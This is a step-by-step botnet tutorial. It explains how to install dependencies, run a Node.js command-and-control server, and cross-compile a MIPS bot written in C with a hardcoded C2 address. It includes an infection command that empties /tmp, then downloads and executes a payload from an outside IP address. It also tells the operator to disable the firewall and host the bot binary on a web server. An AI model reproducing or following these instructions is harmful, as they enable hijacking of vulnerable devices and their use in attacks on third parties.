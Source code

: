 
# ___     __________  ____ _______      _____ _______________.___.  ___     
# / _ \_/\ \______   \/_   |\      \    /  _  \\______   \__  |   | / _ \_/\ 
# \/ \___/  |    |  _/ |   |/   |   \  /  /_\  \|       _//   |   | \/ \___/ 
#           |    |   \ |   /    |    \/    |    \    |   \\____   |          
#           |______  / |___\____|__  /\____|__  /____|_  // ______|          
#                  \/              \/         \/       \/ \/                 

					***JAVASCRIPT BOTNET TUTORIAL***
			***RUN "yum update" BEFORE YOU DO ANY OF THIS***

#########################################
#############DEPENDENCIES################
#########################################
* YOU MUST RUN THESE OR IT WILL NOT WORK*
*		RUN THEM IN THIS ORDER          *
*****************************************
	  
yum install screen -y 
yum install httpd -y 
yum install telnet -y 
yum install gcc -y 
yum install nano -y
yum install wget -y
yum install unzip -y
yum install curl -y
curl --silent --location https://rpm.nodesource.com/setup | bash -
yum install nodejs

#########################################
########## SETTING UP THE NET ###########
#########################################

**START BY MAKING 2 DIRECTORYS**
**TO DO THIS RUN THESE COMMANDS**

mkdir compile
mkdir telnet

**NOW UPLOAD THESE FILES INTO TELNET**
>>botnet_cfg.json
>>botnet_server.js
>>node_modules

	**NOW TO CONFIG THE FILES**
*OPEN UP THE botnet_cfg.json file**

FIND THIS LINE:	>>>		"": {
* ENTER YOUR DESIRED USERNAME WITHIN THE "" *

FIND THIS LINE:	>>>			"password": "",
* ENTER YOUR DESIRED PASSWORD WITHIN THE "" *

*DO THE SAME WITH THE OTHER USER*

	*** TIME TO SCREEN THE NET ***
** ENTER THESE COMMANDS IN THIS ORDER **
screen
node botnet_server.js
press [CTRL+A+D]
should say listening on port 443

#########################################
########## CONFIGING THE BOT ############
#########################################

** SETTING UP DIRECTORYS **

cd compile
wget http://uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2 && tar -vxjf cross-compiler-mips.tar.bz2
cd cross-compiler-mips ; cd bin
upload hope.c

** CONFIGING THE BOT FILE **
		
open up hope.c

FIND THIS LINE:	>>>

unsigned char *commServer[] =
{
        "1.1.1.1:443"			
};

<<<
*** REPLACE THE IP WITH YOUR SERVER IP ***
*** FIND THESE ON LINE 988 & LINE 995 ***
*** REPLACE THEM WITH YOUR WGET LINE ***

>> "cd /tmp && rm -rf * && wget http://185.62.188.209/ubntp && ./ubntp\r\n"
>> "cd /tmp && rm -rf * && wget http://185.62.188.209/ubntp && ./ubntp\r\n"
** SAVE THE CHANGES AND EXIT **

*** TIME TO COMPILE THE BOT ***

./mips-gcc -o mips hope.c ; rm -rf hope.c ; mv mips /var/www/html

*** FINISHING UP ***
		
** RUN THESE COMMANDS **

service iptables stop
service httpd restart

telnet localhost 443
@login yourusername yourpassword